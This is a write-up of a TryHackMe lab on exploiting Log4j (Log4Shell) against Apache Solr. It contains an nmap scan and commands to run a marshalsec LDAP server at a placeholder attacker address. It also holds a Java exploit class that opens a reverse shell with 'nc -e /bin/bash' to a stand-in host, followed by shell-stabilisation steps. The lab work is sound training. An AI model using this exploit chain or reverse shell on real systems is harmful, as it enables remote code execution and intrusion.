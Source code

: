 # TryHackMe: Complete Beginner (Supplements) & Exploiting Log4j

author:: Nathan Acks  
date:: 2022-01-02

Finishing up the supplemental rooms around the TryHackMe: Complete Beginner sequence and then working through a special room covering the recently discovered Log4j vulnerabilities as a fun aside.

* [TryHackMe: Complete Beginner](https://tryhackme.com/path-action/beginner/)
* [TryHackMe: Solar, exploiting log4j](https://tryhackme.com/room/solar)

## TryHackMe: Complete Beginner (Supplements)

### Retro

[See my Retro CTF write-up.](../notes/tryhackme-retro.md)

## Exploiting Log4j

### Reconnaissance

The target has an IP address of 10.10.177.64. We'll start off with a normal nmap scan, though I'm going to be a bit less aggressive since we're just looking to enumerate ports/services.

```bash
sudo nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
```

This gives us:

```
# Nmap 7.92 scan initiated Sun Jan  2 20:58:25 2022 as: nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
Nmap scan report for 10.10.177.64
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
|   256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
|_  256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.177.64:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/2%OT=22%CT=1%CU=42554%PV=Y%DS=4%DC=T%G=Y%TM=61D276A8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 44.471 days (since Fri Nov 19 09:49:52 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   29.11 ms  10.13.0.1
2   ... 3
4   171.20 ms 10.10.177.64

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  2 21:08:08 2022 -- 1 IP address (1 host up) scanned in 582.99 seconds
```

The service running on port 8983 has an HTML page title of "Solr Admin", which seems to be part of Apache Solr.

* [Using "nmap"](../notes/nmap.md)
* [Apache Solr](https://solr.apache.org/)

### Proof of Concept

It's still not 100% clear to me why use of LDAP is required to trigger Log4Shell, but I'm *guessing* this is used because it's one of the protocols that JNDI supports. This makes a little more sense given that JNDI stands for the Java Naming and *Directory* Interface... But it still feels kinda wacky to me that one would store Java objects in... LDAP.

* [Java Naming and Directory Interface (Wikipedia)](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)

### Exploitation

This section makes the question I wrote above at least a little more clear -- LDAP is providing a URL using a more sensible protocol like HTTP that JNDI is then loading the Java code from. So the sequence is malicious request -> LDAP lookup -> load Java code over HTTP.

A simple Java LDAP server that will do just this is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 should match `$ATTACKER_IP` above, and 9999 is the port of the local listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using "netcat"](../notes/netcat.md)

### Persistence

Generic netcat shell stabilization steps (when running bash at *both* ends):

* Run `python3 -c "import pty; pty.spawn('/bin/bash')"` on the target.
* Background the reverse shell with Ctrl+Z.
* Run `stty raw -echo` to disable foreground echo (echo will be handled by the target).
* Foreground the reverse shell with `fg` (there won't be any output).
* Hit Enter a couple of times to get back a prompt, and then `export TERM=xterm`.

That should be good enough.

